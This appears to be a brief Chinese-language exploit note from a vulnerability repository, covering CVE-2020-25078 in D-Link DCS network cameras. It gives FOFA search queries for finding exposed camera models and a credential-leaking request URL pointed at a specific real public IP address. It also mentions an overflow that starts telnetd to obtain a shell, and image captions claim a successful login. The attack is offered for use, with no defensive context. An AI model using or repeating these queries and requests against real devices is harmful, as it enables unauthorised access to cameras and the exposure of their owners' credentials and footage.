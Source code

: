 ## 说明

此漏洞可以通过溢出执行telnetd开启telnet，通过telnet进入到shell

# CVE-2020-25078

FOFA
app="D_Link-DCS-2530L"
app="D_Link-DCS-2670L"
app="D_Link-DCS-4603"

url
`http://175.137.179.74:3128/config/getuser?index=0`

信息泄露其账号密码

![](image/74b368f42c80a86948c73f52691ac2de.png)

登录成功

![](image/9c464ae76ee095c3c1ac4be6cbe17af2.png)